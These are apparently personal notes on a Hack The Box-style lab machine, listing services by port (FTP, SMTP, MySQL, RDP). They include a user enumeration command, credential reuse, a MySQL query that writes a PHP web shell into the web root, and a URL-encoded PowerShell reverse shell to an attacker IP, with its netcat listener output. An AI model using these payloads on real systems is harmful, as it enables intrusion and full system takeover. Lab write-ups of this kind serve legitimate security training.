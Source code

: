 ### FTP - Port 21
We can access with fiona:987654321 and here we find two files with the following content

```plain/text
Docs.txt:

	"I'm testing the FTP using HTTPS, everything looks good."
WebServersInfo.txt 
	CoreFTP:
	Directory C:\CoreFTP
	Ports: 21 & 443
	Test Command: curl -k -H "Host: localhost" --basic -u <username>:<password> https://localhost/docs.txt
	
	Apache
	Directory "C:\xampp\htdocs\"
	Ports: 80 & 4443
	Test Command: curl http://localhost/test.php
```

I have been trying to upload php shells through ftp and invoking them executing `curl -k -H "Host: 10.129.203.7" --basic -u fiona:987654321 https://10.129.203.7/shell.php` but this just download the file so it's not valid

### SMTP - Ports 25, 587
With `smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.12` we find the user fiona@inlanefreight.htb:987654321 (password found with hydra)

### HTTP/HTTPS - Ports 80, 443


### MySQL - Port 3306
With fiona:987654321 we can go in and publish a php backdoor shell with the following command `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"`

Then accessing it through the browser we can execute commands
http://10.129.203.7/backdoor.php?cmd=whoami

![[Pasted image 20230817124433.png]]

With the **[Rev shells generator](https://www.revshells.com/)** code (using PowerShell #2 for Windows) and using a **[url encoder](https://www.urlencoder.org/)** we got a full shell

```bash

URL:
http://10.129.203.7/backdoor.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.16.54%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22


-----------------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234            
listening on [any] 1234 ...
connect to [10.10.16.54] from (UNKNOWN) [10.129.203.7] 49679
whoami
nt authority\system
```


### RDP - Port 3389
